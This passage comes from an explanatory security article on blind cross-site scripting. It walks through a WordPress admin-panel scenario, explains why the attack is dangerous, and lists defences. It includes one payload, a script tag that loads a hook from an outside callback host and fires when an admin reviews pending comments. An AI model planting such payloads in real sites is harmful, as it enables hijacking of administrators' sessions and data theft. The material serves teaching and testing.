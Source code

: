 
### **4. CMS Admin Panels (WordPress, Joomla)**
- **Scenario**: A WordPress plugin stores unfiltered user comments in the database.
- **Execution**: The payload fires when an admin reviews "pending comments" in `/wp-admin`.
- **Impact**: Attackers gain admin access to the CMS.

**Payload Used**:
```javascript
<script src="https://xsshunter.com/wordpress_hook.js"></script>
```

---

## **Why Blind XSS is Dangerous**
1. **Stealthy Persistence**: Payloads can remain dormant for weeks until triggered.

2. **High Impact Targets**: Often exploits privileged users (admins, auditors).

3. **Bypasses Common Defenses**:  
   - Traditional XSS filters often miss blind XSS because they focus on immediate execution.  
   - Payloads may evade Web Application Firewalls (WAFs) by targeting backend systems.  

4. **High-Value Targets**:  
   - Exploits privileged users (admins, auditors, support agents) with access to sensitive data.  
   - Can lead to full system compromise (e.g., stealing admin sessions, pivoting to internal networks).  

5. **Persistence**:  
   - Payloads remain dormant in logs/databases for weeks/months until triggered.  
   - Hard to trace the origin after discovery due to delayed execution.  

1. **Automated Exfiltration**:  
   - Attackers use callback services (XSS Hunter, Interact.sh) to automate data theft without manual interaction.  

---

### **Final Thoughts**  
Blind XSS is a stealthy, high-impact attack that exploits trust boundaries between users and backend systems. Proactive defenses (sanitization, CSP, least privilege) and monitoring are critical to mitigate risks.  

---

**Next Steps**:  
- Test applications using tools like XSS Hunter or Burp Collaborator.  
- Audit admin interfaces and logs for stored script execution.